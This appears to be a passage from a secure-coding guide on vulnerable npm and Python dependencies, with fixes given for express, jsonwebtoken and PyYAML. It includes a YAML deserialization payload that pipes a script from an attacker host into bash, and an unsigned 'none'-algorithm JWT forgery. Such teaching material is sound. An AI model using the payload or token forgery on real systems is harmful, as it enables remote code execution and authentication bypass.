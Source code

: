 **CVE Examples:**
- CVE-2014-6393: Path traversal
- CVE-2015-8851: Open redirect
- Multiple DoS vulnerabilities
- Missing security features (helmet, etc.)

**Impact:**
- Attackers can read arbitrary files
- Redirect users to phishing sites
- Crash server with crafted requests

### jsonwebtoken 5.0.0 - Algorithm Confusion

**Vulnerability:**
- Allows changing algorithm from RS256 to none
- Attacker can forge tokens without signature
- Complete authentication bypass

**Attack:**
```javascript
// Vulnerable version: 5.0.0
const token = jwt.sign({ admin: true }, 'secret', { algorithm: 'none' });
// Server accepts token without verifying signature!
```

**Fix:** Update to 9.0.0+ (algorithm verification enforced)

### PyYAML 3.11 - Arbitrary Code Execution

**Vulnerability (CVE-2017-18342):**
```python
import yaml

# Attacker provides malicious YAML:
malicious_yaml = """
!!python/object/apply:os.system
args: ['curl http://attacker.com/shell.sh | bash']
"""

yaml.load(malicious_yaml)  # Executes command!
```

**Fix:** Use PyYAML 6.0.1+ with safe_load():
```python
yaml.safe_load(data)  # Safe - no code execution
```

## Secure Dependency Management

### Use Latest Stable Versions

```json
{
  "dependencies": {
    "express": "^4.19.0",      // ✅ Caret allows patch/minor updates
    "mongoose": "^8.0.3",      // ✅ Latest major version
    "jsonwebtoken": "^9.0.2"   // ✅ Secure version
  }
}
```
